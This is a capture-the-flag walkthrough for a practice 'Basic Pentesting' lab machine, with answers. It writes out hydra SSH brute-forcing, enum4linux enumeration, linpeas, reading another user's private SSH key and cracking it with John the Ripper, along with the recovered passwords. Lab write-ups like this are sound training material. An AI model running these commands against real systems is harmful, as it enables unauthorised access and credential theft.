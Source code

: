 #Basic Pentesting
##[Task 1] Web App Testing and Privilege Escalation 

###1 	Deploy the machine and connect to our network
Clicked on deploy
Connect to vpn
```
sudo openvpn yourOVPNfile.ovpn
```

Got the ip = <ip>

###2 	Find the services exposed by the machine
Run a nmap scan to get all the open ports

```
nmap -sV -sC <ip>
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

###3 	What is the name of the hidden directory on the web server(enter name without /)?
To do this we can run dirbuster, supply a dir dictonary and press start.

```
dirbuster http://<ip>
```
Dir	/icons/	403	465
Dir	/development/	200	1320

**Answer**
development

###4 	User brute-forcing to find the username & password

```
enum4linux -v <ip>
```
**Result**
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

###5 	What is the username?
After having a look in http://<ip>/development we found out that jan has a week password.

**Answer**
jan

###6 	What is the password?
Bruteforceing jan's week password using rockyou word list.
```
hydra -l jan -P rockyou.txt ssh://<ip>
ctrl+C
hydra -R (to speed it up)
```
Minimum Password Length: 5
[22][ssh] host: <ip>  login: jan   password: armando

**Answer**
armando

###7 	What service do you use to access the server(answer in abbreviation in all caps)?
Did a BF with hydra on SSH

**Answer**
SSH

###8 	Enumerate the machine to find any vectors for privilege escalation
Send the linpeas script to jan. Make it an excecutible. And run it.
```
scp linpeas.sh jan@<ip>:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```
Here we can see that we have access to read kay's **id_rsa** file.

###9 	What is the name of the other user you found(all lower case)?

**Answer**
kay

###10 	If you have found another user, what can you do with this information?
Copy the rsa key. Run ssh2john on that file so JohnTheRipper can read it. BF using rockyou word list.
```
cat /home/kay/.ssh/id_rsa
/usr/share/john/ssh2john.py
sudo john thm/BasicPentesting/id_rsa_kay_tojohn.txt --wordlist rockyou.txt
```
beeswax          (id_rsa_kay)

**Answer**
beeswax

###11 	What is the final password you obtain?
Login to the server using kay's credentials. Print out the pass.bak file.
```
cat pass.bak
```

**Answer**
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
